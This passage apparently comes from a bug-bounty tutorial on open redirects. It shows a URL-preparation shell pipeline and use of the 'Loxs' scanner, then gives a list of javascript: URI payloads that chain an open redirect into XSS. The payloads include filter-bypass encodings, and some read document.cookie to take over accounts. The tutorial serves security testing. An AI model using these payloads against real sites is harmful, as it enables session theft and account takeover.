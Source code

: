 ![None](https://miro.medium.com/v2/resize:fit:700/1*Q1PmjUgDrxEyniQ66d5Nsg.jpeg)

Now you can copy any request and paste it into the browser to verify the redirection.

### Using Loxs tool

For a simpler way to find open redirects you can use our Loxs tool which automatically detects open redirects without any false positives. Use the following command first:

```bash
cat urls.txt | sed 's/=.*/=/' | uro >final.txt
```

- urls.txt: A file containing URLs that have been filtered and sorted using gf patterns or other methods.
- The sed command is used to extract all parameters from URLs and convert them into empty parameters for fuzzing.

After this send the final.txt file into the Loxs tool, select the open redirect option, choose the urls.txt file and select the payload file after that The result will look like this:

![None](https://miro.medium.com/v2/resize:fit:700/1*znCcpyuE4JPeV9Id6UW5Sw.jpeg)

And Loxs will also generate an HTML file for easy viewing of the results, showing all the successful open redirect payloads in a clean and organized format.

![None](https://miro.medium.com/v2/resize:fit:700/1*Ku_On8BYqUppcG88uTqAjQ.jpeg)

### Openredirect to XSS(ATO)

If you find any open redirect, always try to increase the impact by chaining it with XSS by using following paylaods:

```js
#Basic payload, javascript code is executed after "javascript:" 

javascript:alert(1) 

#Bypass "javascript" word filter with CRLF 

java%0d%0ascript%0d%0a:alert(0) 

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed 
#This bypasses FILTER_VALIDATE_URL os PHP 

javascript://%250Aalert(1) 

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator) 

javascript://%250Aalert(1)//?1 javascript://%250A1?alert(1):0 

#Others

%09Jav%09ascript:alert(document.domain) javascript://%250Alert(document.location=document.cookie) /%09/javascript:alert(1); /%09/javascript:alert(1) //%5cjavascript:alert(1); //%5cjavascript:alert(1) /%5cjavascript:alert(1); /%5cjavascript:alert(1) javascript://%0aalert(1) <>javascript:alert(1); //javascript:alert(1); //javascript:alert(1) /javascript:alert(1); /javascript:alert(1) \j\av\a\s\cr\i\pt\:\a\l\ert\(1\) javascript:alert(1); javascript:alert(1) javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie) javascript:confirm(1) javascript://https://whitelisted.com/?z=%0Aalert(1) javascript:prompt(1) jaVAscript://whitelisted.com//%0d%0aalert(1);// javascript://whitelisted.com?%a0alert%281%29 /x:1/:///%01javascript:alert(document.cookie)/
```
